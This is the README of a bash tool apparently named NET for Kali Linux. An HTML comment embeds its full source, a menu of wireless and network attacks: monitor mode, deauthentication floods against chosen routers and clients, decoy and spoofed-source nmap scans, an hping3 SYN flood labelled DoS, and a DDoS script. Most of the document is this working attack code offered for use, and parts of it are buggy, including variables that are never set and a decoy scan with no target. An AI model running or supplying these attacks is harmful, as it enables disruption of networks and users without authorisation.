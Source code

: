 <!-- Badges -->
![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) <!-- Kali bagdge--> ![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white) <!-- Linux bagdge-->![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)
<!-- Begin the file -->

# **NET**

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

### NET is a tool that automates various options for network scanning and attacking, specifically for wireless networks

![NET-Tool](./images/NET_tool_image.jpg "NET tool Menu ")

### You can also type " c " to clear the terminal


![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

# **installation**
```terminal

git clone https://github.com/Mooshaah/net-tool.git

cd net-tool
chmod u+x net
./net
```
### hint : you need to cd into the program directory and type " ./net " every time you want to run the program
















<!-- #!/bin/bash

Scanner_menu(){
echo -e "\e[36m=====================================================
     A          EEEEEEE   H       H
    A A         E         H       H
   A   A        E         H       H
  AAAAAAA       EEEEE     HHHHHHHHH
 A       A      E         H       H
A         A     EEEEEEE   H       H
    
=====================================================
1) Check for a Wirless network card
2) Set your wirless network card to \e[33mMoniter Mode\e[36m
3) scan for available routers
4) Launch a De-Auth Attack
5) scan for IP addresses & open ports using \e[35mNMAP\e[36m
6) Launch a \e[31mDOS\e[36m attack
7) Launch a \e[31mDDOS\e[36m attack
8) Launch \e[33mWifi\e[36m\e[32mte\e[36m attack
9) quit
=====================================================\e[0m"
}

NMAP(){
echo -e "\e[35m=====================================================
	 //\\      // ||\\  //||    //\\    ||===\\
	//  \\    //  || \\// ||   //  \\   ||   ||
 ===== //    \\  //   ||     ||  //====\\  ||===// =====
      //      \\//    ||     || //      \\ ||
=====================================================
1) Host scan 
2) Preform an OS scan
3) Scan for MAC & IP addersses
4) Port scan
5) Decoy scan
6) Scan for vulnerabilities
7) Scan using spoofed ip address
8) Return to main menu
=====================================================\e[0m"
}

port(){
echo -e "\e[35m====================Port Menu========================
1) Scan a specific port
2) Scan for all ports
3) Scan a range of ports
4) Return main menu
=====================================================
\e[0m"
}

Scanner_menu

# wifi_interface=$(iwconfig 2>/dev/null | grep '^\w' | cut -d ' ' -f 1)

while true; do
read -p "Choose an option or type 9 to quit!: " SCANNER_OPTION
case $SCANNER_OPTION in
	[1])
		
		if [ -z "$wifi_interface" ]; then
    			echo "No wireless interface found."
			Scanner_menu # Displays the menu after every option entered by the user
		else
			iwconfig 2>/dev/null | awk '!/^(lo|eth0)/'
		fi
		;;
	[2])
		airmon-ng start $wifi_interface  
		Scanner_menu
		echo -e  "\e[31mNOTTE YOU HAVE TO RESTART THE PROGRAM AFTER THIS PROCESS !\e[0m"

		;;
	[3])
		airodump-ng $wifi_interface
		Scanner_menu
		;;
	[4])
		read -p "Enter the number of Deauth Packets: " DEAUTH
		read -p "Enter the target network MAC/BSSID: " ROUTER_MAC
		read -p "Enter the target client MAC/STATION: " CLIENT_MAC

		if [ -z "$DEAUTH" ]
		then
			 echo "The number of De-auth packet to send is empty, pleae insert any number for the packets to be sent !."

		 else

			if [ -z "$ROUTER_MAC" ]
			then
				echo "Router MAC/BSSID is empty please insert the BSSID of the target router ! "
			else
				if [ -z "$CLIENT_MAC" ]
				then
		
					echo "Client MAC is empty !, please enter the MAC/STATION of the client you want to attack !"
				else
		
					echo " Please enter a target MAC/STATION ! " | read -p $CLIENT_MAC
					aireplay-ng --deauth $DEAUTH -a $ROUTER_MAC -c $CLIENT_MAC $wifi_interface
					Scanner_menu
		fi
			fi
		fi
			;;

		[5])
			#Printing the nmap menu
			NMAP
			#Taking user input
			while true; do
			read -p "Enter an option of the menu above: " NMAP_OPTION
			case $NMAP_OPTION in
			   [1])
		           	   read -p "Enter the ip adderss: " IP
				   nmap $ip
				   ;;
			   [2])
				   read -p "Enter the ip adderss:" OS_IP
				   nmap $OS_IP
				   ;;
			   [3])
				   read -p "Enter the range of ips to be scanned: " IP_RANGE
				   nmap -sn $IP_RANGE
				   ;;
			   [4])

			   while true; do
				   port
				   read -p "choose an option from 1-4: " PORT_MENU
				   if [ $PORT_MENU -eq 1 ]
				   then
					   read -p "Enter the port you want to scan: " PORT
					   read -p "Enter the target IP: " TAR_IP
					   nmap -p $PORT $TAR_IP
				   elif [ $PORT_MENU -eq 2 ]
				   then
					   read -p "Enter the Target IP: " TARGET_IP
					   nmap -p- $TARGET_IP
				   elif [ $PORT_MENU -eq 3 ]
				   then
					   echo "EX: from 1-100"
					   read -p "Enter the range of ports you want to scan: " RANGE
					   read -p "Enter the target IP: " target_ip
				           nmap -p $RANGE $target_ip
				   elif [ $PORT_MENU -eq 4 ]
				   then
				  	NMAP
					break
				   fi
			   done
				   ;;
			   [5])
				   read -p "Enter the first fake IP: " DECOY1
				   read -p "Enter the second fake IP: " DECOY2
				   read -p "Enter the third fake IP: " DECOY3
				   nmap -sS -Pn  -D $DECOY1 $DECOY2 $DECOY3
				   ;;

			   [6])
				   read -p "Enter the targer IP: " ip
				   nmap -sV --script vuln $ip
				   ;;
			   [7])
				   read -p "Enter the spoofed ip: " SPOOFED_IP
				   read -p "Enter the target ip: " P
				   nmap -sS -S $SPOOFED_IP $P
				   ;;
			   [c])
				   clear
				   NMAP
				   ;;
			   [8])
				   Scanner_menu
				   break

		   esac
	   done
		   ;;
	   [6])
		   #DOS
		   read -p "Enter the port of you're targeting: " DOS_PORT
		   read -p "Enter the IP of the network you're targeting: " DOS_IP
		   hping3 -i u1 -S -p $DOS_PORT  $DOS_IP
		   ;;
	   [7])
		   #DDOS
		   read -p "Enter the ip address of the target network to flood: " DDOS_IP
		   python2 saphyra.py http://$DDOS_IP
		   ;;
	   [8])
		   #Wifite

			if which wifite >/dev/null; then
				cd ~/MTIMf
				python2 ./mitmf
			else
				apt install wifite
			fi
		   
		   ;;

	[9]| [quit])
		exit
		;;
	[c])
		clear
		Scanner_menu
		;;
	*)
		echo "Please choose an option from 1 - 5: "
		;;
esac
done
 -->